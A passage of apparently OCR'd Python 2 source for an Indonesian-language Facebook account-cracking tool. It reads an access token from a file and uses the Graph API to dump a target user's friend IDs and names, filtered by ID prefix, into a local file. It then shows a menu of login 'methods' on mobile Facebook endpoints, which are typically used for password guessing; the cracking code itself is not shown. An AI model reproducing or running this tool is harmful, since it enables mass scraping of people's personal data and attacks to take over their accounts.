             elif a['id'][:7] in ['1000000','1000001','1000002','1000003','1000004','1000005','1000006','1000007','1000008','1000009']:
                file.write(a['id']+"<=>"+a['name']+'\n')
                print("\r\x1b[1;97m"+a['id']+"<=>"+a['name'])
            elif a['id'][:6] in ['100001','100002','100003','100004','100005','100006','100007','100008','100009']:
                file.write(a['id']+"<=>"+a['name']+'\n')
                print("\r\x1b[1;97m"+a['id']+"<=>"+a['name'])
        file.close()
        ___user___ = open(___file___,'r').readlines()
        print("\r%s                    "%(P))
        print("%s[%s*%s]%s Selesai..."%(H,P,H,P))
        print("%s[%s?%s]%s Total ID :%s %s"%(H,P,H,P,K,len(___user___)))
        print("%s[%s?%s]%s File Tersimpan Di :%s %s"%(H,P,H,P,K,___file___))
        raw_input("\n%s[%sKembali%s]"%(B,H,B));___menu___()
    except (KeyError):
        exit("%s[%s!%s]%s Dump Gagal"%(P,M,P,M))
    except (ConnectionError):
        exit("%s[%s!%s]%s Koneksi Error"%(P,K,P,K))
# Dump Publik New
def ___new___():
    try:
        ___token___ = open('login.txt','r').read()
    except (IOError):
        exit("%s[%s!%s]%s Token Invalid"%(P,M,P,M))
    try:
        ___ids___ = raw_input("\n%s[%s?%s]%s User :%s "%(B,P,B,P,H))
        if ___ids___ in ['',' ']:
            exit("%s[%s!%s]%s Jangan Kosong"%(P,M,P,M))
        oxo = requests.get("https://graph.facebook.com/%s?access_token=%s"%(___ids___,___token___)).json()
        print("%s[%s*%s]%s Nama :%s %s"%(B,P,B,P,H,oxo['name'].lower()))
        ___file___ = oxo['name'].replace(' ','_') + '.json'
        print(" ")
    except (KeyError):
        exit("%s[%s!%s]%s User Tidak Ada"%(P,M,P,M))
    try:
        rex = requests.get("https://graph.facebook.com/%s?fields=friends.limit(50000)&access_token=%s"%(___ids___,___token___)).json()
        file = open(___file___ , 'a')
        for a in rex['friends']['data']:
            if a['id'][:5] in ['10005','10006','10007','10008']:
                file.write(a['id']+"<=>"+a['name']+'\n')
                print("\r\x1b[1;97m"+a['id']+"<=>"+a['name'])
        file.close()
        ___user___ = open(___file___,'r').readlines()
        print("\r%s                    "%(P))
        print("%s[%s*%s]%s Selesai..."%(H,P,H,P))
        print("%s[%s?%s]%s Total ID :%s %s"%(H,P,H,P,K,len(___user___)))
        print("%s[%s?%s]%s File Tersimpan Di :%s %s"%(H,P,H,P,K,___file___))
        raw_input("\n%s[%sKembali%s]"%(B,H,B));___menu___()
    except (KeyError):
        exit("%s[%s!%s]%s Dump Gagal"%(P,M,P,M))
    except (ConnectionError):
        exit("%s[%s!%s]%s Koneksi Error"%(P,K,P,K))
def ___metode___():
    print("\n%s[%s1%s]%s Methode mbasic.facebook.com"%(B,P,B,P))
    print("%s[%s2%s]%s Methode free.facebook.com"%(B,P,B,P))
    print("%s[%s3%s]%s Methode mobile.facebook.com"%(B,P,B,P))
    print("%s[%s4%s]%s Methode d.facebook.com %s[%sNew%s]"%(M,P,M,P,B,H,B))
    print("%s[%s5%s]%s Methode b-api.facebook.com"%(B,P,B,P))
    print("%s[%s6%s]%s Methode x.facebook.com %s[%sNew%s]"%(M,P,M,P,B,H,B))
    ___metode___ = raw_input("\n%s[%s?%s]%s Choose :%s "%(B,H,B,P,K))